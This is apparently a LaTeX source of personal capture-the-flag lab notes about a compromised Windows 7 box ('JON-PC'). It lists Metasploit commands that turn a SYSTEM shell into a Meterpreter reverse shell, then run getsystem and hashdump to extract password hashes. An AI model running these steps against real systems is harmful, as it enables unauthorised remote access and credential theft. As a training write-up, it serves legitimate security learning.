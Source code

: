 \documentclass{article}
\begin{document}
We have access to the machine:

\begin{quote}
Microsoft Windows [Version 6.1.7601] \\
Copyright (c) 2009 Microsoft Corporation. \\ All rights reserved.
C:/Windows/system32 >
\end{quote}
By running $whoami$, you can see the we have access as the \textit{nt authority/system user}

\section{Privilege Escalation}
After we have access, we can replace our shell with Meterpreter WHY??. Background the current DOS shell with ctrl + Z. Select the Meterpreter exploit, check the required variables and run.

\begin{lstlisting}
$ search meterpreter
$ use post/multi/manage/shell_to_meterpreter
$ info
$ sessions
$ set SESSION 1
$ run
\end{lstlisting}
This post exploit has openen a second reverse shell to the Windows box. Select the Meterpreter shell:

\begin{lstlisting}
$ sessions -l
$ sessions 2
\end{lstlisting}
Now again have a reverse shell on the Windows box, but this time as meterpreter. Some more reconnsaissance:

\begin{lstlisting}
$ sysinfo
\end{lstlisting}

Computer        : JON-PC \\
OS              : Windows 7 (6.1 Build 7601, Service Pack 1). \\
Architecture    : x64 \\
System Language : en\_US \\
Domain          : WORKGROUP \\
Logged On Users : 0 \\
Meterpreter     : x64/windows \\

Now we need to migrate to a process that will have enough privileges:

\begin{lstlisting}
$ getsystem
$ hashdump
\end{lstlisting}
\end{document}
